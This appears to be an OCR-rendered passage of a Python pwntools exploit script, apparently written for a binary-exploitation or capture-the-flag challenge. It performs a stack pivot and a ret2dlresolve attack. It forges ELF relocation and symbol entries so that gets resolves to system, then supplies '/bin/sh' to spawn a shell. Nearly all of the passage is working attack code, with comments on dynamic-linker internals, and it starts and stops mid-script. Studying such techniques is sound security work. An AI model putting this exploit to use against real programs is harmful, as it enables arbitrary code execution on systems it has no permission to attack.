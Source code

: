 ```python
  }
};
"""
fake_rel_entry_offset = p64(elf.got['gets']) # Replace gets
# Calculation would be ELF64_SYM_LIST + index * sizeof(Elf64_Sym), being the size 24
assert((SYM_ENTRY_ADDRESS - ELF64_SYM_LIST) % 24 == 0) # We need to assert the address is divisible by Elf64_Sym size (24)
index = int((SYM_ENTRY_ADDRESS - ELF64_SYM_LIST) / 24)
fake_rel_entry_info = p64((index << 32) | 0x7)
fake_rel_entry = fake_rel_entry_offset + fake_rel_entry_info
rel_offset = REL_ENTRY_ADDRESS - ELF64_REL_LIST

"""
// Symbol table entries for ELF64.
struct Elf64_Sym {
  Elf64_Word st_name;     // Symbol name (index into string table)
};
 
// The size (in bytes) of symbol table entries.
enum {
  SYMENTRY_SIZE64 = 24  // 64-bit symbol entry size.
};
"""

fake_sym_entry = p64(STRING_ADDRESS - FUNCTION_NAMES_LIST) + p64(0x00)

"""
_dl_fixup(link_map, index) {
    Elf64_Rel *rel_entry = JMPREL[index] ;
    Elf64_Sym *sym_entry = SYMTAB[rel_entry->getSymbol()];
    char *sym_name = STRTAB + sym_entry -> st_name ;
    void *symbol_address = _dl_fixup(link_map, sym_name);
    // now call the resolved symbol
    _dl_lookup_symbol_x(arg1, arg2...)
}
"""

# Stack pivot 
p.recvuntil(b'xx')
p.sendline(b'A' * 0x10 + p64(PIVOTED_STACK) + p64(elf.symbols['main'] + 12))
p.info(f'Stack pivoting performed to {hex(PIVOTED_STACK)}')

p.info(f'[*] REL LIST ADDR: {hex(ELF64_REL_LIST)}')
p.info(f'[*] SYM LIST ADDR: {hex(ELF64_SYM_LIST)}')
p.info(f'[*] STR LIST ADDR: {hex(FUNCTION_NAMES_LIST)}')
p.info(f'[*] Setting "system" at {hex(STRING_ADDRESS)}')
p.info(f'[*] Setting El64_Sym at {hex(SYM_ENTRY_ADDRESS)}')
p.info(f'    * String index at: {hex(STRING_ADDRESS - FUNCTION_NAMES_LIST)}')
p.info(f'[*] Setting El64_Rel at {hex(REL_ENTRY_ADDRESS)}')
p.info(f'    * Replacing gets at: {hex(elf.got["gets"])}')
p.info(f"    * Fake index is at: {hex(index)} :: final r_info: {hex((index << 32) | 0x7)}")

p.recvuntil(b'xx')
exploit =  p64(0x00)
exploit += p64(0x00)
exploit += p64(FINAL_STACK) # The resolve functions will use a lot of memory, we need as much room as we can get.
exploit += p64(elf.symbols['main'] + 12)
exploit += b"system\x00\x00"
exploit += p64(0x00)
exploit += fake_sym_entry
exploit += fake_rel_entry 
exploit += b'/bin/sh\x00'
```